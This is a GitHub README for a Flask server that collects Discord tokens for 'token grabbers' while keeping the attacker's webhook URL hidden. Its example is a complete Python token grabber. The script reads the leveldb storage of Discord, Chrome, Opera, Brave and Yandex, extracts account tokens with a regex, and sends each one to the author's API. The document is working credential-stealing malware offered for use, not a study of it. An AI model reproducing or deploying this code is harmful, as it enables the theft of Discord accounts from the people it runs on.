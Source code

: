 # Discord Webhook Protection

 A simple Discord webhook REST API using Flask to protect Discord webhook URLs to prevent people from abusing it (spamming, deleting etc.).

## Usage

Instead of hardcoding your webhook URL in your applications and sending a lot of HTTP requests using the token in i.e. token grabbers, you can set up a webserver running this API that will do it all for you, while not exposing your webhook URL.

The API will validate and send the token information over the webhook URL provided in `config.json` .

To create new API endpoints, create a new Python file in directory `routes` and import it in `routes\__init__.py` under the line `# import here` .

## Example

Here's an example of a token grabber using the API instead of directly sending a webhook request.

``` py
import os
import re
import requests

# configuration
API_IP = '127.0.0.1' # change to your server IP
API_PORT = 5001  # change to your API port defined in config.json
SECRET = 'aSPQq7gE86coXJbuikEbf9IEkablz6Rw' # change to your secret defined in config.json

# constants
API_URL = f'http://{API_IP}:{API_PORT}/grab?secret={SECRET}&token=%s'
LOCAL = os.getenv('LOCALAPPDATA')
ROAMING = os.getenv('APPDATA')
PATHS = {
    'Discord': ROAMING + '\\Discord',
    'Discord Canary': ROAMING + '\\discordcanary',
    'Discord PTB': ROAMING + '\\discordptb',
    'Google Chrome': LOCAL + '\\Google\\Chrome\\User Data\\Default',
    'Opera': ROAMING + '\\Opera Software\\Opera Stable',
    'Brave': LOCAL + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
    'Yandex': LOCAL + '\\Yandex\\YandexBrowser\\User Data\\Default'
}

tokens = []

for platform, path in PATHS.items():
    if os.path.exists(path) is False:
        continue

    path = os.path.join(path, 'Local Storage', 'leveldb')

    for item in os.listdir(path):
        if item[-4:] in ('.log', 'ldb') is False:
            continue

        with open(os.path.join(path, item), errors='ignore', encoding='utf-8') as file:
            lines = file.readlines()

        for line in lines:
            line = line.strip()

            if line == "":
                continue

            for token in re.findall(r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[\w-]{84}', line):
                if token in tokens:
                    continue

                tokens.append(token)

for token in tokens:
    try:
        res = requests.get(API_URL % token)  # sends token to your API
    except:
        pass
```

## Requirements

* Python 3
* Git (optional)
* Server to host API

## Installation

1. Install repository via `$ git clone https://github.com/ecriminal/Webhook-Protection.git`
2. Install required modules using `$ pip install -r requirements.txt`
3. Edit `config.json` file
4. Start webserver via `$ py main.py`

## TODO

[ ] Set up a MySQL database to store tokens, used to prevent dupes
[ ] IP-address based rate limit to prevent abusers from flooding the API
[ ] Support multiple tokens in a single request using `,` seperator
